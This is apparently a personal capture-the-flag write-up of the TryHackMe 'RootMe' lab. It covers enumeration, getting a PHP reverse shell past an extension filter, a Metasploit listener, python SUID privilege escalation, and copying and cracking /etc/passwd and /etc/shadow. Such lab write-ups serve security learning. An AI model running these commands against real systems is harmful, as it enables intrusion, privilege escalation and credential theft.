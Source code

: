 ## TryHackMe - RootMe
> Completed 14th June  2022.

This ended up being a very straight forward boot2root box that required skills that I had picked up on in previous labs. I used this as n opportunity to reinforce some of which I had learned.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Metasploit
- JohnTheRipper

---
### Methodology
#### Objectives/Flags
1. user.txt
2. root.txt

---
#### Reconnaissance
Started off by enumerting the target.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As a webserver was running, I navigated to it in a web browser to see what it's about and what can I further enumerate. While browsing the site's source code I ran `Gobuster` in the background to fuzz out directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP> -w <Wordlist> > <output.txt>
```
```
//uploads             (Status: 301) [Size: 314] [--> http://<TargetIP>/uploads/]
//panel               (Status: 301) [Size: 312] [--> http://<TargetIP>/panel/]  
```

![](/TryHackMe/RootMe/images/Root_001.jpg)
![](/TryHackMe/RootMe/images/Root_002.jpg)

As these two directories were revealed, navigating to them showed me that the site is capable of file uploads and that the upload directory could be accessed. I got to work preparing a reverse shell using `metasploit`.

#### Weaponization 
N/A

#### Delivery
The reverse shell code I used can be found [here](https://github.com/pentestmonkey/php-reverse-shell). My initial thought was that if the site uses `.php` files as webpages, I should be successful in getting a reverse shell connection if my rshell payload was also in `.php`. While poking at the upload form, we can see that `.php` files are forbidden from being uploaded via extension filtering. Using what I had learned back in my run through [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md)I renamed the file extension to `.phphtml` as first attempt to bypass the filter. The upload was successful.

![](/TryHackMe/RootMe/images/Root_003.jpg)
![](/TryHackMe/RootMe/images/Root_004.jpg)

#### Exploitation
With a successful upload, I was able to see my reverse shell file in the site's upload file directory. I started up `Metasploit` to get a listener going.
```bash
sudo msfdb init && msfconsole
  use exploit/multi/handler
  set lhost <AttackerIP>
  set lport <AttackerListeningPort>
  run
```
From here I could execute the payload through the site which successfully establishes a connection to my listener.
```bash
$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
At this point I started walking the file directory of the box hoping to find some loot.
```bash
cd /var/www/
  cat user.txt
    THM{***}
```
I had found my first flag in the web-app's directory. While I was here, I decided to exfiltrate `Website.zip` to my local machine to not only see if I could find anything of interest but perhaps reverse engineer and repurpose in the future. Additional directory exploring revealed that the user `www-data` had access to `passwd` which I copy+pasted onto my localhost.
```bash
cat /etc/passwd
```
As I didn't have the correct permissions to view `/etc/shadow` I started to search for binary manipulations that could escalate my viewing privileges. The box's walkthrough recommended [GTFObins](https://gtfobins.github.io/gtfobins/python/) which was a new resource for me. After some research I found that by running a command through python we could manipulate our session to give us a higher viewing privilege.
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
![](/TryHackMe/RootMe/images/Root_005.jpg)
From here we could now view the shadow file which I also copy+paste onto my localhost.
```bash
cat /etc/shadow
```
Later in my exploration of the system I had found indications that `JohnTheRipper` was installed. I tried to dig through its files to see if there was past use recorded however yielding nothing, I decided to use it on my local machine to reduce my footprint. For the wordlist I used `rockyou.txt`.
![](/TryHackMe/RootMe/images/Root_006.jpg)
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=<wordlist> unshadow.txt > <output.txt>
```
After a short while the passwords are revealed for user `root` and `test`. I could now login as a root.
```bash
su
  su: must be run from a terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Trying to run `su` wasn't going to work as we had manipulated our session to be `sh`. By using a command, we had previously learned, we can re manipulate python to spawn us a new `bash` terminal sessions.
```bash
su
  su
  Password: P**********
root@rootme:/#
root@rootme:/# id
  uid=0(root) gid=0(root) groups=0(root)
```
We are now successfuly logged in as the `root` user and we could now loot the final flag.
```bash
root@rootme:/# cat /root/root.txt
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
After completing this box in less time than some other boxes I felt I was reinforcing my knowledge for the boot2root process. New things I learned specifically was just additional vectors for privilege-escalation which were tricky to get my head around but manipulating binaries is all it takes. I'll hold onto [GTFObins](https://gtfobins.github.io/) as a future resource.

#### What I would've done differently
If I was to take on this box again, I would like to have a better understanding of why the `python` binary could be manipulated in such a way and develop a method to prove the vulnerability by checking for versions etc.

